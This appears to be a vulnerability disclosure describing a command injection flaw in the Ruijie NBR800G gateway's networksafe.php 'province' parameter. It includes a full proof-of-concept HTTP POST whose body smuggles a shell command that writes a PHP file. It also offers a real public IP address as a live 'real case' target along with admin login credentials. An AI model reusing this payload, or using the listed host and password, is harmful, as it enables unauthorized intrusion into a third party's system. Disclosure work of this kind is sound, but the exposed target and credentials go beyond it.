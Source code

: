 # Ruijie NBR800G gateway has command execution vulnerability

## Overview
Manufacturer's address：[(https://222.170.147.52:4430/)]
## Vulnerability impact
Ruijie NBR800G gateway NBR_RGOS_11.1(6)B4P9
## Vulnerability location
/itbox_pi/networksafe.php
## Vulnerability details
<br /> Ruijie Networks is a professional network manufacturer with a full range of network equipment product lines and solutions including switches, routers, software, security firewalls, wireless products, storage, etc.
<br /> Ruijie NBR800G gateway has a command execution vulnerability. An attacker can obtain server permissions through the vulnerability, causing the server to crash.
<br /> This vulnerability is the result of code audit, so no Internet cases are provided. The detailed steps of code analysis and part of the vulnerability source code in the document are for reference only.
## Vulnerability verify
[(https://222.170.147.52:4430/)]
<br /> 1.Code analysis
<br /> The province parameter is controllable, and the splicing is brought to ` `, causing the command to be executed.
<br />![image](https://github.com/user-attachments/assets/bcde24bf-934f-4603-ae09-31aa66c2b410)
<br /> 2.Local reproduction
<br /> Login interface
<br /> ![image](https://github.com/user-attachments/assets/bd645fc3-c7b0-43b7-849b-e7777e4c582c)
<br /> Product version certificate
<br /> ![image](https://github.com/user-attachments/assets/93e3896a-13eb-447e-904f-2c1d1032c8eb)
<br /> The command can be executed directly through the province parameter. Since exec has no echo, here we pass the whoami test and write it into 1.php.
<br /> POC
<br /> POST /itbox_pi/networksafe.php?a=list HTTP/1.1
<br /> Host: 127.0.0.1:4430
<br />Cookie: LOCAL_LANG_COOKIE=zh; RUIJIEID=vh60slsfgs4krrhfqhho0h6f31; user=admin
<br />User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
<br />Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
<br />Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
<br />Accept-Encoding: gzip, deflate, br
<br />Upgrade-Insecure-Requests: 1
<br />Sec-Fetch-Dest: document
<br />Sec-Fetch-Mode: navigate
<br />Sec-Fetch-Site: none
<br />Sec-Fetch-User: ?1
<br />X-Forwarded-For: 192.168.12.3
<br />If-Modified-Since: Tue, 04 Jul 2017 08:28:20 GMT
<br />Priority: u=0, i
<br />Te: trailers
<br />Connection: keep-alive
<br />Content-Type: application/x-www-form-urlencoded
<br />Content-Length: 25
<br />province=|echo `id`>1.php
<br />Visit /itbox_pi/1.php and execute id
<br />![image](https://github.com/user-attachments/assets/c0b68ba4-dc31-4c0a-a1ad-95556b511fbd)
<br />To facilitate review and retest, a real case verification is provided.
<br /> https://222.170.147.52:4430/
<br /> admin/123123aA

